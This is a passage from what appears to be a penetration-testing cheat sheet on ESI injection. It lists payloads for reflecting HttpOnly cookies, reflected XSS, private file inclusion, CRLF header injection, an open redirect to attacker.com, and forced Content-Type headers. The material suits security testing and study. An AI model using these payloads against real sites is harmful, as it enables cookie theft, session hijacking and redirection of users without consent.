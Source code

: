 - Steal cookie HTTP_ONLY with XSS by reflecting it in the response:
    



```
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```

#### Private Local File

Do not confuse this with a "Local File Inclusion":


```
<esi:include src="secret.txt">
```

#### CRLF
 
```
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```

#### Open Redirect
he following will add a `Location` header to the response


```
<!--esi $add_header('Location','http://attacker.com') -->
```

#### Add Header 

-   
    Add header in forced request
    

```
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```
- Add header in response (useful to bypass "Content-Type: text/json" in a response with XSS)
    

```
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```
